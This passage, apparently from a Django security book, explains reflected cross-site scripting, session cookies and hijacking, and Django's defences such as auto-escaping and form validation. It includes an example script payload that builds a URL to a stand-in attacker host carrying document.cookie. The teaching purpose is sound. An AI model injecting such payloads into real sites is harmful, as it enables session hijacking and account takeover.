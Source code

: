 Unsurprisingly, the browser will show an alert box with the ominous message - pwned.

<pre>
This attack fails in current browsers such as the latest Chrome, which will
present the following error message in the console: Refused to execute a
JavaScript script. The source code of script found within request.
</pre>


In case you are wondering what harm a simple alert message could cause, remember that
any JavaScript code can be executed in the same manner. In the worst case, the user's
cookies can be sent to a site controlled by the attacker by entering the following search
term:

```js
<script>var adr = 'http://lair.com/evil.php?stolen=' +
escape(document.cookie);</script>
```

Once your cookies are sent, the attacker might be able to conduct a more serious attack.


### Why are your cookies valuable?
It might be worth understanding why cookies are the target of several attacks. Simply put,
access to cookies allows attackers to impersonate you and even take control of your web
account.

To understand this in detail, you need to understand the concept of **sessions**. HTTP is
stateless. Be it an anonymous or an authenticated user, Django keeps track of their activities
for a certain duration of time by managing sessions.

A session consists of a session ID at the client end, that is, the browser and a dictionary-like
object stored at the server end. The session ID is a random 32-character string that is stored
as a cookie in the browser. Each time a user makes a request to a website, all their cookies,
including this session ID, are sent along with the request.

At the server end, Django maintains a session store that maps this session ID to the session
data. By default, Django stores the session data in the **django_session** database table.

Once a user successfully logs in, the session will note that the authentication was successful
and will keep track of the user. Therefore, the cookie becomes a temporary user
authentication for subsequent transactions. Anyone who acquires this cookie can use this
web application as that user, which is called session hijacking.


### How Django helps
You might have observed that my example was an extremely unusual way of
implementing a view in Django for two reasons: it did not use templates for rendering, and
form classes were not used. Both of them have XSS-prevention measures.

By default, Django templates auto-escape HTML special characters. So, if you had
displayed the search string in a template, all the tags would have been HTML encoded.
This makes it impossible to inject scripts unless you explicitly turn them off by marking the
content as safe.

Using form classes in Django to validate and sanitize the input is also a very effective
countermeasure. For example, if your application requires a numeric employee ID, then use
an **IntegerField** class rather than the more permissive **CharField** class.
